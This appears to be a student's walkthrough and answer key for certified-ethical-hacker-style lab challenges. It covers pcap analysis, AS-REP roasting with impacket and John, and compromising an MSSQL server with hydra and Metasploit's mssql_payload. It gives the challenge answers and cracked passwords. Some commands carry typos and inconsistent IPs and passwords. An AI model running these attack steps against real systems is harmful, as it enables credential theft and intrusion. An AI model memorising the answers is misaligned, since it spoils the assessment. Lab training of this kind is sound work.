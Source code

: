Challenge 5:
You are assigned to analyse PyD_attack.pcapng file stored in Downloads folder of EH Workstation -2 machine. Determine the attacker IP machine which is targeting the RPC service of the target machine. (Format: NNN.NN.NN.NN)
Answer:
1.	RPC(Remote Procedure Call) is related to TCP
2.	go to wireshark and open the file
3.	go to Edit -> preferences -> Protocols -> RPC -> check on first 2 boxes ( fragment RPC TCP)
4.	Look at format and Answer
5.	172.30.10.99


Challenge 6:
An incident handler identified severe DDoS attack on a network and provided report using Anti-DDoS Guardian tool. You are assigned to analyse the reports submitted by the IH team which are stored in "C:\Users\Admin\Documents\Anti-DDoS" directory of the EH Workstation-1 and determine the attacker IP which has transmitted more number of packets to the target machine. (Format: NNN.NNN.NN.NNN)
Answer:
1.	Go to the documents folder and open the report file
2.	check the incoming bytes column for the most no. of bytes.
3.	Looking at the IP format check for a large no. of bytes eg:- inc.bytes 13481074(blocked)
4.	192.168.10.222

Challenge 7:
You are assigned to analyse the domain controller from the target subnet and perform AS-REP roasting attack on the user accounts and determine the password of the vulnerable user whose credentials are obtained. Note: use users.txt and rockyou.txt files stored in attacker home directory while cracking the credentials. (Format: aNaaN*NNN)
Answer:
1.	we found the domain controller IP & DNS tree name(AD name) in the first engage task
2.	192.168.0.222 & SKILL.CEH.com
3.	terminal -> sudo su -> cd
4.	cd impacket/examples/
5.	python3 GetNPUsers.py SKILL.CEH.com/ -no-pass -usersfile /home/attacker/users.txt -dc-ip 192.168.0.222
6.	copy the user with hash value
7.	pluma Joshuahash.txt -> paste hash and save
8.	john --wordlist = /home/attacker/rockyou.txt joshuahash.txt
9.	c3ll0@123

Challenge 8:
A client machine under the target domain controller has a misconfigured SQL server vulnerability. Your task is to exploit this vulnerability, retrieve the MSS.txt file located in the Public Downloads folder on the client machine and determine its size in bytes as answer. Note: use users.txt and rockyou.txt files stored in attacker home directory while cracking the credentials. (Format: N)
Answer:
1.	The target domain controller(192.168.0.222) is given to confuse us, the ip is mentioned in the first task of engage.
2.	check if the IP has mssql
3.	nmap -A -sC -sV -T4 192.169.10.144
4.	hydra -L /home/attacker/users.txt -P /home/attacker/rockyou.txt 192.168.10.144 mssql
5.	user: Server_mssrv password:spidy
6.	python3 /root/impacket/examples/mssqlclient.py SKILL.CEH.com/Server_mssrv:spidey@192.168.10.144 -port 1433
7.	note database name (msdb)
8.	msfconsle
9.	use exploit/windows/mssql/mssql_payload
10.	set RHOST 192.168.10.144
11.	set USERNAME Server_mssrv
12.	set PASSWORD Spidey
13.	set DATABASE msdb
14.	exploit
15.	shell->cd “C:\\Users\\Public\\Downloads”
16.	dir
17.	MSS.txt – 7Bytes
